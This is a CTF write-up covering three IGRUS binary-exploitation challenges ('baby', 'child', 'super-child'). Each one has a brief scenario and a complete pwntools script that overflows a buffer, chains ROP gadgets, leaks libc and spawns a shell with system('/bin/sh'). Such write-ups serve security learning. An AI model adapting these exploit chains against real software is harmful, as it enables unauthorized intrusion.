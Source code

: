 ```yaml
---
title: IGRUS CTF writeups
tags: ctf writeup baby igrus super-child child
---
```

## 0. baby
### 0-0. Scenario
Since the ``flag`` function has both ``system`` and '/bin/sh' string, theres not much to do here.
 
1. find pop rdi gadget
2. call system('/bin/sh')

### 0-1. Exploit

```python
from pwn import *

#gadgets
rdi = 0x4007c3

#addresses
systemplt = 0x400570
binsh = 0x4007e8

# dummy data
payload = 'a'*40

# system
payload += p64(rdi) + p64(binsh) + p64(systemplt)

r = process('./baby')

r.recvuntil('you > ')

r.sendline(payload)

r.interactive()
```

## 1. child

### 1-0. Scenario
This problem uses custom lib. So, we have to get the offset from the provided file, not from the default libc. That's pretty much it.

Since this is 32-bit binary which includes gadgets, we can easily leak the libc address.

1. leak libc addr with puts
2. return to main = get another input
3. system('/bin/sh')

### 1-1. Exploit
exploit code:
```python
from pwn import *
context.log_level='debug'

lib = ELF('libc.so.6')
binary = ELF('child')

#addresses from lib
readoff = lib.symbols['read']
systemoff = lib.symbols['system']

#binsh string location
binshoff = list(lib.search('/bin/sh'))[0]

#addresses from bin
main = binary.symbols['main']
readgot = binary.got['read']
putsplt = binary.plt['puts']

#gadgets
pop3ret = 0x8048589
popret = 0x8048589

#start process
p = process('./child', env={'LD_PRELOAD':lib.path})

#read input prompt
p.recvuntil('you > \x00')

#dummy data
payload = 'a'*36

#puts(*read@got)
payload += p32(putsplt) + p32(popret) + p32(readgot) + p32(main)

#send first payload
p.sendline(payload)

#read output and calculate libc address
readaddr = u32(p.recvn(4))
base = readaddr - readoff

#read input prompt
p.recvuntil('you > \x00')

#dummy data
payload = 'a'*36

#system(*'/bin/sh')
payload += p32(base+systemoff) + p32(0) + p32(base+binshoff)

#gdb.attach(proc.pidof(p)[0], 'b *main')

#send second payload
p.sendline(payload)

p.interactive()
```

## 2. super-child

### 2-0. Scenario
This problem is similar to previous ``child``, just that it is 64 bits and got trickier.
The binary doesn't have ``puts`` nor gadgets, so we're stuck with ``csu`` and ``write``. Other than that, it's pretty much the same thing

1. Leak libc address with write
2. return to main = get another input
3. system('/bin/sh')

### 2-1. Exploit
exploit code:
```python
from pwn import *
#context.log_level='debug'

lib = ELF('libc.so.6')
bin = ELF('super-child')

#addresses from lib
writeoff = lib.symbols['write']
systemoff = lib.symbols['system']

#binsh string location
binshoff = list(lib.search('/bin/sh'))[0]

#addresses from bin
writeplt = bin.plt['write']
writegot = bin.got['write']
main = bin.symbols['main']

#gadgets
poprdi = 0x400723
csupop = 0x40071a
csumov = 0x400700

#first payload dummy value
payload = 'a'*(0x20+8)

#write(1,*write@got,6)
payload += p64(csupop) + p64(0) + p64(1) + p64(writegot) + p64(6) + p64(writegot) + p64(1) + p64(csumov)

#return to main
payload += p64(0)*7 + p64(main)

#start process
p = process(bin.path,env={'LD_PRELOAD':lib.path})

#read input prompt
p.recvuntil('you > \x00')

#send payload
p.sendline(payload)

#read output and calculate libc base address
base = u64(p.recvn(6)+'\x00\x00') - writeoff

#gdb.attach(proc.pidof(p)[0], 'b *main')

print hex(base)

#second payload dummy value
payload = 'a'*(0x20+8)

#system('/bin/sh')
payload += p64(poprdi) + p64(base + binshoff) + p64(base + systemoff)

#read input prompt
p.recvuntil('you > \x00')

#send payload
p.sendline(payload)

p.interactive()
```
